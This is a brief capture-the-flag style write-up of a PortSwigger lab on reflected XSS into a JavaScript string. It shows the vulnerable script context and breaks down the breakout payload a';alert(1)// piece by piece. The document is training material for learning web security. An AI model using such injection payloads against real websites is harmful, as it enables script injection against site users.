



> platform -> PortSwigger
> Target -> Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

---
- **WHERE IS VULNERABILITY**
- ***Goal***

---

### steps:
1. ##### Open the lab in your browser.
2.  our payload already in script tag
3.
```javascript
var searchTerms = 'helllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllll';
document.write('');
```
4. now a';alert(1)//
```md
> payload chunks
- a'`           → random letter, means nothing
- ;            → ends the previous statement
- alert(1)     → the something = show a popup
- //           → comments out the rest of the line, so it doesn't break the code
```
5. payload a';alert(1)// successfully executed the alert(1) function 
6. solve the lab 
